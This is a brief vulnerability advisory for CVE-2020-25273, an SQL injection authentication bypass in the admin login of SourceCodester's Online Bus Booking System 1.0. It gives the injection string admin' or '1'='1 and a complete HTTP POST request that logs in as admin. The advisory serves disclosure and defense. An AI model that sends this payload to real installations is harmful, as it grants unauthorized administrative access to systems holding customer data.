 # CVE-2020-25273
Online Bus Booking System 1.0,  there is Authentication bypass on the Admin Login screen in admin.php via username or password SQL injection.

#Vendor - SourceCodester 

#Product -https://www.sourcecodester.com/php/14438/online-bus-booking-system-project-using-phpmysql.html V 1.0

#Vulnerability Type - Authentication Bypass

#Affected Component - bus_booking/admin.php

#Attack Type- Local

#Privilege Escalation - true

#Impact Code execution - true

> ***Attack Vector***

> 1) Go to Admin Login Panel and try to bypass
>
> 2) In request payload, set  
>
>    username : admin' or '1'='1
>
>    password :  admin' or '1'='1
>
>__________________________________
>
> POST /bus_booking/login_auth.php HTTP/1.1
>
> Cookie: PHPSESSID=5d6832eeb2a8dfd424c1b6dcd73745a0
>
> username=admin'+or+'1'%3D'1&password=admin'+or+'1'%3D'1
> 
>________________________________________________________
>
>Successfull logged in to Admin Dashboard
